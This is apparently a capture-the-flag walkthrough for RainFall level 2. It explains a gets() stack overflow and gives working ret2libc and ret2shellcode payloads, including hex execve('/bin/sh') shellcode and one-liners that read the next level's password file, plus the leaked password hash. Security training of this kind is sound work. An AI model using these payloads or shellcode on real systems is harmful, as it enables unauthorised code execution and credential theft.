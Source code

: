# Level 2

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void p(void)
{
    fflush(stdout);

    int buffer[16];
    gets(buffer);

    int tmp = buffer[20];
    if ((tmp & 0xb0000000) == 0xb0000000)
    {
        printf("(%p)\n", tmp);
        exit(1);
    }
    puts(buffer);
    strdup(buffer);
}

int main(void)
{
    p();
}
```

Let's focus on the `p` function. It reads input using the `gets` function, which is known to be unsafe due to its potential for causing buffer overflows, as it lacks a mechanism to limit the number of bytes read. This will allow us to overflow the buffer and overwrite the return address of the `p` function.

Let's analyze the stack layout of our program:
```bash
(gdb) b *p+105 # Breaking before leave
Breakpoint 1 at 0x804853d

(gdb) r # Run the program
Starting program: /home/user/level2/level2


Breakpoint 1, 0x0804853d in p ()

(gdb) info registers # Check esp and ebp addresses
[...]
esp            0xbffff6c0       0xbffff6c0
ebp            0xbffff728       0xbffff728
[...]
```

By calculating the difference between `esp` and `ebp` we can see that the stack is allocated 104 bytes:
```
0xbffff728 - 0xbffff6c0 = 68 (104 in decimal)
```	

Furthermore, we can see that our buffer is located at `-0x4c(%ebp),%eax`. Since our buffer is located at `ebp - 76`, we only have to write 76 bytes before reaching `ebp`.
> In this case we don't have to take the bytes between `esp` and `ebp` into account because the offset of our buffer is relative to `ebp`. `ebp` is the base pointer, whom's value is set at the beginning of the function. So the offset of our buffer will always be the same. Whereas `esp` is the stack pointer, whom's value changes during the execution of the program.

Since our goal is to overflow the stack until we reach the return address of the main function, we need to add another 4 bytes to go from `ebp` to `ebp + 4` (the return address). So a total of 80 bytes (76 + 4).

Anything written beyond those 80 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

There are different ways to solve this challenge, we'll see two of them. First with a ret2shellcode and then the ret2libc way.

### Ret2Libc
Check the [level1's walkthrough](../level1/walkthrough.md#ret2libc) for an explanation of the ret2libc technique.

We, therefore, need the addresses of the `system`, `exit` functions and the string `/bin/sh` in memory. These are found using GDB:

```bash
# System
(gdb) info function system
0xb7e6b060  __libc_system
0xb7e6b060  system
[...]

# Exit
(gdb) info functions exit
0x080483d0  _exit
0x080483d0  _exit@plt
[...]

# /bin/sh
(gdb) info proc mappings
[...]
0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
[...]
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
```

However, we'll need to include an extra step because of the following lines:
```c
if ((tmp & 0xb0000000) == 0xb0000000)
{
    printf("(%p)\n", tmp);
    exit(1);
}
```

Earlier, I mentioned that the return address was put into our next variable, which is `tmp`. So the `&` operator, along with the `0xb0000000` mask is used to check if our return address most significant byte is equal to `0xb`. If it is, the program will exit. So we need to find an address that doesn't start with `0xb`. 

Given that the address of the `system` function begins with `0xb`, it cannot be directly used. So we'll have to include the address of a `ret` instruction in our payload. When the program attempts to return to this address, the `ret` instruction pops the address of `system` into the EIP register, causing the program to jump to `system`.


Alright, let's craft our payload:
```
reminder: padding + address of ret + address of system + address of exit + address of "/bin/sh"

"\x90"*80 + "\x08\x04\x85\x3e" + "\xb7\xe6\xb0\x60" + "\x08\x04\x83\xd0" + "\xb7\xf8\xcc\x58"
```

Let's run it:
```bash
level2@RainFall:~$ (python -c 'print("\x90"*80 + "\x08\x04\x85\x3e"[::-1] + "\xb7\xe6\xb0\x60"[::-1] + "\x08\x04\x83\xd0"[::-1] + "\xb7\xf8\xcc\x58"[::-1])' && echo 'cat /home/user/level3/.pass') | ./level2
����������������������������������������������������������������>������������>`��X���
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

Perfect, let's move to the other solution.

### Ret2Shellcode
Check the [level1's walkthrough](../level1/walkthrough.md#ret2shellcode) for an explanation of the ret2shellcode technique.

We can either feed our shellcode to the program, or we can put the shellcode in an environment variable. For convenience, we'll feed our shellcode to the program.
> The reason why we're not using an environment variable is because the address of the environment variable will start with `0xb` which will trigger the check in the source code. We could use the same technique as the ret2libc solution, by adding the address of a `ret` instruction, but it's easier to just feed the shellcode to the program.

We use `ltrace` to find the address of our shellcode:
```bash
level2@RainFall:~$ ltrace ./level2
[...]
strdup("") = 0x0804a008
```

Since `strdup` allocates the buffer that was read by `gets`, the address of the shellcode will be stored at `0x0804a008` (The address that was returned by strdup).

So our payload will be:
```
shellcode + padding + address of shellcode
Alternatively, you could place the padding before the shellcode, using NOPs.

"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*(80-21) + "\x08\x04\xa0\x08"[::-1]
```

The padding is 80 - 21 because the shellcode is 21 bytes long.

Alright let's try it:
```bash
level2@RainFall:~$ (python -c 'print("\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*(80-21) + "\x08\x04\xa0\x08"[::-1])' && echo 'cat /home/user/level3/.pass') | ./level2
j
 X�Rh//shh/bin��1�̀������������������������������������������������������
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

We are now level3! Let's move on to the next level.
